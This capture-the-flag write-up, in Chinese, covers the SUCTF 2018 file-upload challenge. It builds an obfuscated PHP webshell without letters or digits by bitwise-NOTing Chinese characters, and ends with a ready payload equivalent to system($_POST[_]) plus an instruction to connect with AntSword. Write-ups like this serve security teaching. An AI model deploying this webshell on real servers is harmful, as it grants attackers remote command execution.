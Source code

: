## [SUCTF 2018]GetShell

文件上传题目

![image-20230414213323837](https://raw.githubusercontent.com/leekosss/photoBed/master/202304142133986.png)

发现在第五个之后，会对字符进行过滤，我们上传的时候抓包：

![image-20230414213747146](https://raw.githubusercontent.com/leekosss/photoBed/master/202304151523798.png)



经过测试，发现字母、数字都被过滤了。典型的无字母数字webshell

`+ | ^ % > < '` 等字符被过滤了，所以我们只能使用取反 `~` 绕过

测试得知，中文不会被绕过，所以我们需要使用中文取反

这里总结一下使用中文取反的汉字：

![14872686600768.jpg](https://raw.githubusercontent.com/leekosss/photoBed/master/202304142232472.jpeg)

```php
<?php
echo ~"区"[1].PHP_EOL;
echo ~"冈"[1].PHP_EOL;
echo ~"勺"[1].PHP_EOL;
echo ~"皮"[1].PHP_EOL;
echo ~"针"[1].PHP_EOL;
// system
echo ~"码"[1].PHP_EOL;
echo ~"寸"[1].PHP_EOL;
echo ~"小"[1].PHP_EOL;
echo ~"欠"[1].PHP_EOL;
echo ~"立"[1].PHP_EOL;
// _POST
```

根据以上这些汉字，我们就可以构造出我们想要的命令执行了

```php
<?php
$_=[]; //array
$__=$_.$_; //arrayarray
$_=($_==$__);//$_=(array==arrayarray)明显不相同 false 0
$__=($_==$_);//$__=(array==array) 相同返回1

$____ = ~区[$__].~冈[$__].~区[$__].~勺[$__].~皮[$__].~针[$__];//system
$___ = ~码[$__].~寸[$__].~小[$__].~欠[$__].~立[$__];//_POST


$____($$__[_]);//也就是system($_POST[_])

```

payload:

```php
<?=$_=[];$__=$_.$_;$_=($_==$__);$__=($_==$_);$___=~区[$__].~冈[$__].~区[$__].~勺[$__].~皮[$__].~针[$__];$____=~码[$__].~寸[$__].~小[$__].~欠[$__].~立[$__];$___($$____[_]);
```

直接蚁剑连接即可

[无字母数字webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

